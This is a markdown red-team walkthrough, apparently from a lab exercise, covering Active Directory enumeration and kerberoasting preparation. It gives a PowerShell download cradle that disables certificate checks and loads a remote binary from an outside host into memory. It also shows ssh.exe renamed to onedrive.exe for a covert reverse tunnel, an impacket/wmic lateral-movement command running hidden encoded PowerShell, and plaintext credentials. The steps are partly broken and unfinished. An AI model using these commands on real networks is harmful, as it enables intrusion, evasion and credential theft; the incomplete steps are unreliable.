


# Advanced Enumeration

1. Remote from LIGHTEATER to the TWORIVERS.wheel.co machine using the wheel\macauthon | pw: Ch!ldr3nOfTheL1ght  acount.  This only works if you are in the security context of a domain user.  If you have system, you can also inject into a domain users process to assume that context, or impersonate.
   
2. Open powershell_ise.



3. `[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()`

$psISE.PowerShellTabs.Add()
$psISE.PowerShellTabs.SetSelectedPowerShellTab($psISE.PowerShellTabs[0])
$a = $psISE.PowerShellTabs[1].InvokeSynchronous("([adsisearcher]`'(&(objectCategory=user))`').findall()")
$a



1. Enumerate users and computers.
```
"([adsisearcher]'(&(objectCategory=user))').findall()|convertto-json"

([adsisearcher]'(&(objectCategory=Computer))').findall()|convertto-json
```

1. Previous enumeration reveals several domain users and computers with Service Principal Names (SPNs). To determine which accounts could be targeted for a kerberoasting attack, perform an LDAP query for all users assigned SPNs in order to generate a list of their SAM account names (this is needed later).  

```
[string[]]$sams=([adsisearcher]"(&(objectCategory=user)(serviceprincipalname=*))").findall()|%{$_.properties["samaccountname"]};$sams
```
---------------tested to here for enumeraiton-------------

<details><summary> OPTIONAL METHOD THAT IS MORE NOISY USING FULL SHELL</summary>

- 🎯 **Target:** it-user10

This will run through the merlin socks5 proxy, leveraging either schduled tasks or the regcmds in previous events.

1. First you want to enumerate, pull back the information to your device and document so you are situationally aware.
   
   ```ps1
    ([adsisearcher]"objectcategory=user").findall()
    ([adsisearcher]"objectcategory=computer").findall()
    ([adsisearcher]"serviceprincipalname=*").findall().properties.serviceprincipalname
    (([adsisearcher]"serviceprincipalname=*").findall(),properties)|fl*
   ```
   
2. Now with the domain user, collect accounts with SPNs.
 
    ```ps1
    $search = New-Object DirectoryServices.DirectorySearcher([ADSI]"") 
    $search.filter = "(&(servicePrincipalName=*)(objectCategory=user))" 
    $results = $search.Findall() 
    foreach ($results in $results) { $u = $results.GetDirectoryEntry(); $u.name; $u.samaccountname; foreach ($s in $u.servicePrincipalName) { $s; } Write-Host "---";}
    ```

## Proxy Based Domain Enumeration:

6to4 proxy: Creates A rule.

or SSH Reverse Proxy. 

In a console: 
1. copy c:\Windows\system32\openssh\ssh.exe C:\ProgramData\onedrive.exe
2. C:\ProgramData\onedrive.exe <tunnel commands>
3. 


2. Prepare to enumerate the IT domain using a subsequent shell, pull back the information to your device and document so you are situationally aware. To do this, prepare another download cradle for the `shell.exe` binary. In contrast to the previous cradle, this will be used to download and invoke the shell in memory. Use the following command to base64 encode the cradle. 

```powershell
'try{[net.servicepointmanager]::servercertificatevalidationcallback={$true};[reflection.assembly]::load([net.webclient]::new().downloaddata("https://captainamerica.org/java/<path here>")).entrypoint.invoke(0,((,$null)));}catch{};'
```


```shell 
> proxychains -q impacket-wmiexec -ts -debug -nooutput -silentcommand $DOMAIN/$USER:$PASSWORD@172.23.1.80 \
'c:\windows\system32\wbem\wmic.exe /node:172.23.3.110 /user:"it-nakatomi##.local\webadmin" /password:"Vr6F#x@9c2" /privileges:enable process call create "c:\\windows\\system32\\windowspowershell\\v1.0\\powershell.exe -ex b -w h -enc  <paste here>"'
```